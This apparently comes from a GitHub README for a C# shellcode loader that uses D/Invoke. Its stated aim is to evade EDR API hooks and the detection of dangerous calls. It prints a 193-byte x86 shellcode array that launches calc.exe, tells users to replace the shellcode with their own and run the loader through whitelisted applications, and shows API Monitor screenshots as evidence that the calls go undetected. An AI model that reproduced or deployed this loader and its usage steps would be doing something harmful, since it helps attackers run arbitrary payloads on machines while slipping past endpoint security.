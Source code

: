 # DInvoke_shellcodeload_CSharp



Blog link: May not gonna update.

* A ShellcodeLoader base on my another project(https://github.com/Kara-4search/Simple_ShellCodeLoader_CSharp), inspire by TheWover(https://github.com/TheWover).
* The purpose is to bypass EDR 's APIs hook, or danger APIs dectection.
* Use D/Invoke to load shellcode into memory.
* **I removed a lot of unnecessary code from the original project, make the code easy for understanding.**
* You could change the function name or do other magic works make it better for EDR bypassing.
* I only tested it on x86 with the shellcode below(It is a calc shellcode), but it should be able to work on x64.

  ```c#
  byte[] codepent = new byte[193] {
                  	0xfc,0xe8,0x82,0x00,0x00,0x00,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,0x30,
                  0x8b,0x52,0x0c,0x8b,0x52,0x14,0x8b,0x72,0x28,0x0f,0xb7,0x4a,0x26,0x31,0xff,
                  0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0xc1,0xcf,0x0d,0x01,0xc7,0xe2,0xf2,0x52,
                  0x57,0x8b,0x52,0x10,0x8b,0x4a,0x3c,0x8b,0x4c,0x11,0x78,0xe3,0x48,0x01,0xd1,
                  0x51,0x8b,0x59,0x20,0x01,0xd3,0x8b,0x49,0x18,0xe3,0x3a,0x49,0x8b,0x34,0x8b,
                  0x01,0xd6,0x31,0xff,0xac,0xc1,0xcf,0x0d,0x01,0xc7,0x38,0xe0,0x75,0xf6,0x03,
                  0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe4,0x58,0x8b,0x58,0x24,0x01,0xd3,0x66,0x8b,
                  0x0c,0x4b,0x8b,0x58,0x1c,0x01,0xd3,0x8b,0x04,0x8b,0x01,0xd0,0x89,0x44,0x24,
                  0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x5f,0x5f,0x5a,0x8b,0x12,0xeb,
                  0x8d,0x5d,0x6a,0x01,0x8d,0x85,0xb2,0x00,0x00,0x00,0x50,0x68,0x31,0x8b,0x6f,
                  0x87,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x68,0xa6,0x95,0xbd,0x9d,0xff,0xd5,
                  0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,0x72,0x6f,0x6a,
                0x00,0x53,0xff,0xd5,0x63,0x61,0x6c,0x63,0x2e,0x65,0x78,0x65,0x00
  };
  ```

* You could use API monitor(http://www.rohitab.com/apimonitor) to test the project, comparing with the SimpleLoader(https://github.com/Kara-4search/Simple_ShellCodeLoader_CSharp), You could see there is no API call via D/Invoke.



## Usage

1. Just replace the shellcode.
2. Launch it through some white list applications


## Comparing via API monitor

There are mainly 3 APIs we are gonna monitor:

* VirtualAlloc
* CreateThread
* WaitForSingleObject

  
1. You could see the picture below, the SimpleLoader' s API call caught by API monitor.
   ![avatar](https://raw.githubusercontent.com/Kara-4search/tempPic/main/APIMon-Result1.png)

2. And the **DInvoke ShellcodeLoader**'s API call was not caught by API monitor.
   ![avatar](https://raw.githubusercontent.com/Kara-4search/tempPic/main/APIMon-Result2.png)


## Reference link:

1. https://github.com/CCob/SharpBlock
2. https://ethicalchaos.dev/2020/05/27/lets-create-an-edr-and-bypass-it-part-1/
3. https://ethicalchaos.dev/2020/06/14/lets-create-an-edr-and-bypass-it-part-2/
4. https://thewover.github.io/Dynamic-Invoke/
5. https://offensivedefence.co.uk/posts/dinvoke-syscalls/
6. https://github.com/TheWover/DInvoke
7. http://www.rohitab.com/discuss/topic/38807-api-monitor-v2-r10-release-instant-monitoring-without-definitions-support-for-dllmain-and-early-apis-windows-8/
8. https://vimeo.com/566964438
9. https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread
10. https://docs.microsoft.com/en-us/dotnet/api/microsoft.visualstudio.shell.interop.vsdebugstartupinfo.dwcreationflags?view=visualstudiosdk-2019

